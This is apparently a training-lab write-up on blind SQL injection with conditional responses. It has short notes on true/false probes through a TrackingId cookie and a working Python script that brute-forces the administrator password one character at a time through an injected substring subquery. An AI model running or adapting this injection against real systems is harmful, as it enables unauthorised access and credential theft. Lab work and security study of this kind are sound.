





# Blind SQL injection with conditional responses

**Level:** <mark style="color:blue;">**Practitioner**</mark>

<figure><figcaption></figcaption></figure>

* This is other type of SQL injection.
* This time the server will not response with any SQL error, and we need to use other ways to see if its vulnerable.
* The challenge is saying that the SQLi is in a cookie called **TrackingId**.
* We need to be aware of the **Welcome Back!**.

<figure><figcaption></figcaption></figure>

* First, I start with a simple injection that will be **True**.
* So that's why we see the **Welcome Back!** because it does not interfere with nothing in the query.
* Now be aware of the **Welcome Back!** on the response.

<figure><figcaption></figcaption></figure>

* This time we put that **2=1** so because it will be **False**, it will not response with the **Welcome Back!**
* We can filter by the content length too if you want to.

<figure><figcaption></figcaption></figure>

* So, let's start injecting in this phase our query to retrieve the administrator password from the tables and columns that the challenge gives us at the start.
* Let's use some logic to retrieve the password.
* Here we're seeing that if in the column password the first character is an **"a", it will response back with the Welcome Back!** This time the first character is not an **"a".**

<figure><figcaption></figcaption></figure>

* This time the first character in the password column is a **6**.

Use this script to retrieve the information from the password column:

```python
#!/usr/bin/python3

from pwn import *
import requests, sys, signal, time, string


def def_handler(sig, frame):
	print("\n[!]Exiting...\n")
	sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = '<URL>'
characters = string.ascii_lowercase + string.digits

def makeRequest():

	password=""

	p1 = log.progress("Brute Force")
	p1.status("Starting Brute Force")

	time.sleep(2)

	p2 = log.progress("Password")


	for position in range(1, 21):


		for character in characters:


			cookies = {
				'TrackingId':"hCjf3BafVXQSVHVx' and (select substring(password,%d,1) from users where username = 'administrator' )='%s" % (position, character),
				'session':'8CbmAU6otnLblx3famuzLMRxOguBxgiq'
			}

			p1.status(cookies['TrackingId'])
			r = requests.get(main_url, cookies=cookies)

			if "Welcome back!" in r.text:
				password += character
				p2.status(password)
				break


if __name__ == '__main__':

	makeRequest()

```
